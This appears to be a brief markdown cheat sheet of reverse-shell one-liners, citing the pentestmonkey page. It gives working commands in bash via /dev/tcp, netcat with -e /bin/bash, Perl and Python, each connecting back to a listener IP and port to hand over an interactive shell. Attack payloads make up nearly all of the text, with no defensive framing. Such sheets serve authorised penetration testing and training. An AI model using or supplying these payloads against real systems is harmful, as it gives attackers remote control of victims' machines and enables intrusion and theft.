 # Reverse shell scripts

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## Using Netcat
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  

## Using Perl
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'


